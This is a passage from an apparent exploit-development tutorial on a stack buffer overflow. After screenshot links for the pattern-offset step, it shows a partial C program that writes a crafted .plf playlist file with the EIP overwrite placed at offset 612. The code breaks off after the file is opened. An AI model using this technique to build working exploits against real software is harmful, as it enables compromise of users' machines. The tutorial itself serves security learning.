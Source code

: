 ![alt text](assets/post_4/pattern_eip.jpeg)
![alt text](assets/post_4/pattern_offset.png)

Now we will modify our exploit payload based on our findings related to the pattern offset. We can verify if everything is correct by making the following changes to our payload:
```c
#include <stdio.h>
#include <string.h>

int main() {
    FILE *arq;
    char file[] = "check.plf";
    char payload[1024]; 

    memset(payload, 'A', 612);           
    memcpy(payload + 612, "BBBB", 4);     
    memset(payload + 616, 'C', 400);      
    payload[1016] = 'D';                  
    payload[1017] = '\0';                 

    
    arq = fopen(file, "w");
    if (arq == NULL) {
        return 1;
    }
```